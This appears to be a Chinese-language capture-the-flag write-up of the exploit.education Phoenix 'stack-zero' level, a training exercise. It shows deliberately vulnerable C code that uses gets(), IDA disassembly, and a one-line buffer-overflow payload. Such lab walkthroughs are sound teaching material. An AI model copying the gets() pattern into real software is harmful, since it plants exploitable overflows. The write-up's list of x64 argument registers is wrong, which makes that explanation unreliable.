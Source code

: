 # STACK ZERO

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

### Source code

```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

这个是官方的页面，上的内容

其实就是想让我们通过 `buffer` 修改 `changeme` 的值

怎么能做的到呢，其实学过内存布局的人都应该知道 `locals` 是一个局部变量，现在这个情况 `locals` 应该是在栈上的

看到 `gets(locals.buffer);` 这一句，我们可以通过 `STDIN` 输入一个字符串给 `buffer[64]` 赋值，这里很明显的漏洞在于

`gets` 函数从 `STDIN` 读取字符串的时候是没有长度限制的

而 `buffer` 是有大小的，我们输入的长度大于 `64` 的时候就会发生栈溢出，会覆盖到栈上的其他的 内存区域

这里挑战成功的条件是

`locals.changeme != 0`

我直接拿 IDA 看，因为很多时候我们都是黑盒审计

程序挺简单的 看汇编吧，这样有利于技能的提升

![](stack_zero_asm.png)

```asm
var_60= qword ptr -60h
var_54= dword ptr -54h
var_50= byte ptr -50h
var_10= dword ptr -10h

push    rbp
mov     rbp, rsp
sub     rsp, 60h
mov     [rbp+var_54], edi
mov     [rbp+var_60], rsi
mov     edi, offset s   ; "Welcome to phoenix/stack-zero, brought "...
call    _puts
mov     [rbp+var_10], 0
lea     rax, [rbp+var_50]
mov     rdi, rax
call    _gets
mov     eax, [rbp+var_10]
test    eax, eax
jz      short loc_40061C
```

可以看到

```asm
test eax,eax
jz short loc_40061C
```

这个的意思是

如果 `eax` 为零,设置 `ZF` 零标志为 `1`， `jz`  跳转

跳转到 loc_40061C 就说明我们挑战失败，所以往上看 `eax` 其实存的是 `[rbp+var_10]` 的内容，所以只要我们修改了这个地方就能跳转到我们想要的那个地方，也就是 `puts("Well done, the 'changeme' variable has been changed!");`

我们现在再看输入的地方

```asm
lea     rax, [rbp+var_50]
mov     rdi, rax
call    _gets
```

在 x64 下面调用函数前，要把函数的前 `6` 个参数依次压到

```asm
rdi rsi rax rcx rdx r8 r9 
```

里面，第 7 个以后放在栈上，gets 只有一个参数，只需要把参数压到 rdi 里面就可以，我们可以看到，我们可以写入 `[rbp+var_50]` ，而我们要改变的内存区域是 `[rbp+var_10]` 

在这里 var_ 后面跟的那个数字是 表示变量距离 `rbp` 的距离（当然这是 IDA，其他的反编译器表示可能不一样）

栈是向低地址增长的 我们可以 从 `rbp-0x50` 写入，一直写到 `rbp-0x10`，也就是说只要写入超过 0x40 个字符就能覆盖  `rbp-0x10`

好了，直接操作，用 python 生成 0x41 个 A

```
python -c "print( \"A\" * 0x41)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

![](exploit.png)

pwn！

程式自己解包拿，或者直接使用官方的镜象，我就不放了